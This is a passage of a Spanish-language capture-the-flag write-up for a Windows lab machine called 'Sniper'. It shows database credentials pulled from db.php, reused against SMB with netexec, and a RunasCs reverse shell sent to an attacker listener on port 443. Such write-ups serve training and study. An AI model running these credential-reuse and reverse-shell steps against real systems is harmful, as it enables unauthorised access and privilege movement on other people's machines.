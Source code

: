 ![Write-up Image](images/Screenshot_19.png)

En el archivo `C:\inetpub\wwwroot\user\db.php` encontramos unas credenciales para la base de datos.
```shell
PS C:\inetpub\wwwroot\user> type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Como está el SMB abierto con `netexec` podemos comprobar que estas credenciales son válidas
```shell
nxc smb 10.129.229.6 -u Chris -p '36mEAhz/B8xQ~2VM'
SMB         10.129.229.6    445    SNIPER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.129.229.6    445    SNIPER           [+] Sniper\Chris:36mEAhz/B8xQ~2VM
```

Para migrar a este usuario podemos subirnos el binario de `RunasCs.exe` y mandarnos una revshell.

```shell
.\RunasCs.exe Chris "36mEAhz/B8xQ~2VM" cmd.exe -r 10.10.14.50:443

[+] Running in session 0 with process function CreateProcessWithTokenW()
[+] Using Station\Desktop: Service-0x0-3e3$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 5328 created in background.
```

```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49808
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sniper\chris
```
